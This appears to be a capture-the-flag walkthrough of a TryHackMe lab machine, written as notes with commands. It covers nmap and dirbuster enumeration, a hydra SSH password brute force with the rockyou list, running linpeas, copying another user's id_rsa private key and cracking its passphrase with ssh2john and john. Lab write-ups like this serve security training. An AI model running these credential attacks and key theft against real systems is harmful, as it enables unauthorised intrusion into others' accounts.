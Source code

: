 ## Machine Details
ipaddr=10.10.250.159

## Pre Reqs


## Enumeration
Find open services.
trying nmap using 

```nmap $ip -vvv -sC -sV -oN nmap-output.txt```
```
PORT     STATE SERVICE     REASON  VERSION
22/tcp   open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8009/tcp open  ajp13?      syn-ack
8080/tcp open  http-proxy  syn-ack
```

BASIC-2 hostname 

using dirbuster for directories
```
dirbuster -u http://10.10.250.159 -l /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -r
```

## TASK 
use user brute-forcing to find the username and password.

navigated to /development

2 files
- dev.txt
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```
- j.txt
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```
SSH is open (22)

clearly /etc/shadow is relevant.

running enum4linux

checking output... 

usernames found

```
jan
kay
```

## find credentials
Use hydra to brute ssh with the rockyou.txt wordlist
```
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.250.159 ssh
```

with found password login as user

time to enum on the box itself

try ```cat /etc/shadow``` 
no permissions
```
ls -la 
cat .lesshst
```
no permissions

### enumerate with linpeas

use scp to copy over linpeas.sh as box has not internet access

copy to location jan has privileges to

```scp /share/tryhackme/tools/linpeas/linpeas.sh jan@10.10.250.159:/dev/shm```

```./linpeas.sh | tee lin.txt```

Look for interesting stuff, check exploits, ssh keys etc

always check if you can access .ssh in home directories
```
cat id_rsa
```
save on local machine

set permissions to ```600``` on key

try ```ssh -i ssh/kay_idrsa kay@10.10.250.159```

passphrase required.

use ssh2john to get the hash of the ssh key
```
ssh2john ssh/kay_idrsa > kayhash.txt 
```

use john to crack the hash, use rockyou wordlist again
```
john kayhash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

ssh again with the found password

get the flag